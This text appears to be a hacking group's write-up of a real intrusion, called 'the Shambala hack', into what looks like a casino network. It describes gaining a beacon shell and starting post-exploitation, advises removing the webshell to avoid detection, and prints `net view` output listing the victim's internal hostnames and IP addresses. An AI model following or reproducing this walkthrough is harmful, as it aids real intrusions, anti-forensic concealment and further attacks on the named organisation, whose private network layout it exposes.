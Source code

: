 Now that we run the exploit and get our initial shell.

![[MSF2Beacon.png]]

We may now move on to POST EXPLOITATION! when we say post exploitation we will cover all the topics from PIVOTING, GAINING PRIVILEGE, AND DATA EXFIL!

## Post Exploitation

A fellow GhostSec Member userware will continue from here and will tell you our process of post exploitation during the Shambala hack!!

### Enumeration and Discovery

After we got initial access we start with a basic internal recon running `net view` just by using APIs without relying on `net.exe`. Also be sure to remove the webshell that was weaponized with beacon ahead of time. Just do it just in case user!

```
beacon> net view
received output:
List of hosts:

 Server Name             IP Address                       Platform  Version  Type   Comment
 -----------             ----------                       --------  -------  ----   -------
 ADMIN-REST-01           172.16.2.155                     500       6.1
 ADMIN-REST-02           172.16.2.121                     500       6.1
 AQUILA                  172.16.0.20                      500       10.0     PDC    
 BUH1                    172.16.4.154                     500       10.0
 BUH2                    172.16.4.180                     500       6.1
 CCTV-3-1                172.16.2.182                     500       10.0
 CCTV-UPGR               172.16.2.84                      500       10.0
 CCTV-UPRG2              172.16.2.167                     500       10.0
 EXEMS                   172.16.0.75                      500       10.0
 HERCULES                172.16.0.70                      500       10.0
 HOTELMAN                172.16.2.240                     500       10.0
 INKASS1                 172.16.20.1                      500       6.1
 INKASS2                 172.16.20.9                      500       10.0
 INSTRUCTOR              172.16.3.0                       500       6.1
 IT-BOOK                 172.16.1.222                     500       6.1
 ITDEP                   172.16.1.55                      500       10.0
 JOKERCLUB1              172.16.20.61                     500       6.1
 JOKERCLUB2              172.16.20.62                     500       10.0
 KASSA1                  172.16.20.2                      500       6.1
 KASSA2                  172.16.20.3                      500       6.1
 KASSA3                  172.16.20.4                      500       6.1
 LOGIST                  172.16.12.129                    500       10.0
 MANAGER                 172.16.13.142                    500       10.0
 MARKETING-02            172.16.2.11                      500       10.0
 PERSONAL-01             172.16.2.47                      500       10.0
 PERSONAL-02             172.16.4.24                      500       10.0
 PERSONAL-03             172.16.2.2                       500       6.1
 PITBOSS1-1              172.16.20.40                     500       10.0
 PITBOSS1-2              172.16.3.200                     500       10.0
 PITBOSS2                172.16.3.165                     500       10.0
 PITBOSSGOLD             172.16.4.4                       500       10.0
 PITBOSSOFFICE           172.16.3.86                      500       6.1
 PITBOSSVIP              172.16.20.125                    500       6.1
 POKERCLUB-PC            172.16.2.181                     500       10.0
 PRODMAN                 172.16.2.123                     500       6.1
 RDPSRV                  172.16.0.77                      500       10.0
 REC1                    172.16.20.21                     500       6.1
 REC2                    172.16.20.22                     500       10.0
 REC3                    192.168.0.79                     500       6.1
```
